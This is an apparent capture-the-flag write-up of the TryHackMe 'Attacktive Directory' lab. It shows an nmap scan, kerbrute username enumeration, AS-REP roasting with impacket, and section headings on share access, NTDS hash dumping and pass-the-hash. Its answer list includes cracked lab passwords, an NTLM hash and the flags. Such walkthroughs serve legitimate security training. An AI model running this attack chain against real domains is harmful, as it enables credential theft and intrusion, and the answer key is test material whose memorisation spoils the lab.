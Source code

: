 ```yaml
---
description: Active Directory
---
```


# ATTACKTIVE DIRECTORY

![](../.gitbook/assets/bc3749c26ec24501a38957e7869a9de1.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-12-27 19:32:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-27T19:33:55+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-16T22:48:24
| Not valid after:  2021-03-18T22:48:24
| MD5:   dabe 7d5f 87d1 5ec6 a30a e736 1e37 0efc
|_SHA-1: 3747 b05a 96c8 92bf f443 0d51 bc70 a268 88b6 500c
|_ssl-date: 2020-12-27T19:34:03+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/27%OT=53%CT=1%CU=30626%PV=Y%DS=2%DC=T%G=Y%TM=5FE8E1
OS:AC%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=104%GCD=1%ISR=106%TI=I%CI=I%II=I%TS=U)OPS(O1=M505NW8NNS%O2=M50
OS:5NW8NNS%O3=M505NW8%O4=M505NW8NNS%O5=M505NW8NNS%O6=M505NNS)WIN(W1=FFFF%W2
OS:=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M505NW8
OS:NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%
OS:S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(
OS:R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-12-27T19:33:55
|_  start_date: N/A

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   44.91 ms 10.9.0.1
2   45.02 ms 10.10.109.179
```

## PORT 88 KERBEROS ENUMERATION

### BRUTEFORCE WITH KERBRUTE

```text
kerbrute -users users.txt -domain spookysec.local -dc-ip 10.10.109.179
```

![](../.gitbook/assets/619d613276d84b148ea0cfc255648964.png)

### ASREPROAST

```text
impacket-GetNPUsers spookysec.local/ -usersfile roasting.txt -dc-ip 10.10.109.179
```

![](../.gitbook/assets/172217409aaa48be9f6d9c5ed6637855.png)

### DECRIPTING

![](../.gitbook/assets/6e4a663649a44f73b71d009e1a5cca2e.png)

![](../.gitbook/assets/90bef727c91e4a8aba6430684e1bb318.png)

## SHARES ENUMERATION

![](../.gitbook/assets/734a30d7dc724748ab0a707e0d33e8ac.png)

![](../.gitbook/assets/a0fa1d57a27d456c9046eb74387afa85.png)

## HASHDUMP

![](../.gitbook/assets/8bc2bf7408374ac78db589d0d78947e3.png)

## GETTIN SHELL

![](../.gitbook/assets/e04dede3157246b685209be25863266d.png)

## ANSWERS

* What tool will allow us to enumerate port 139/445?

  ```text
  enum4linux
  ```

* What is the NetBIOS-Domain Name of the machine?

  ```text
  THM-AD
  ```

* What invalid TLD do people commonly use for their Active Directory Domain?

  ```text
  .local
  ```

* What command within Kerbrute will allow us to enumerate valid usernames?

  ```text
  userenum
  ```

* What notable account is discovered? \(These should jump out at you\)

  ```text
  svc-admin
  ```

* What is the other notable account is discovered? \(These should jump out at you\)

  ```text
  backup
  ```

* We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

  ```text
  svc-admin
  ```

* Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? \(Specify the full name\)

  ```text
  Kerberos 5 AS-REP etype 23
  ```

* What mode is the hash?

  ```text
  18200
  ```

* Now crack the hash with the modified password list provided, what is the user accounts password?

  ```text
  management2005
  ```

* Using utility can we map remote SMB shares?

  ```text
  smbclient
  ```

```text
- Which option will list shares?
-L
```

* How many remote shares is the server listing?

  ```text
  6
  ```

* There is one particular share that we have access to that contains a text file. Which share is it?

  ```text
  backup
  ```

* What is the content of the file?

  ```text
  YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
  ```

* Decoding the contents of the file, what is the full contents?

  ```text
  backup@spookysec.local:backup2517860
  ```

* What method allowed us to dump NTDS.DIT?

  ```text
  DRSUAPI
  ```

* What is the Administrators NTLM hash?

  ```text
  0e0363213e37b94221497260b0bcb4fc
  ```

* What method of attack could allow us to authenticate as the user without the password?

  ```text
  pass the hash
  ```

* Using a tool called Evil-WinRM what option will allow us to use a hash?

  ```text
  -H
  ```

* svc-admin

  ```text
  TryHackMe{K3rb3r0s_Pr3_4uth}
  ```

* backup

  ```text
  TryHackMe{B4ckM3UpSc0tty!}
  ```

* Administrator

  ```text
  TryHackMe{4ctiveD1rectoryM4st3r}
  ```
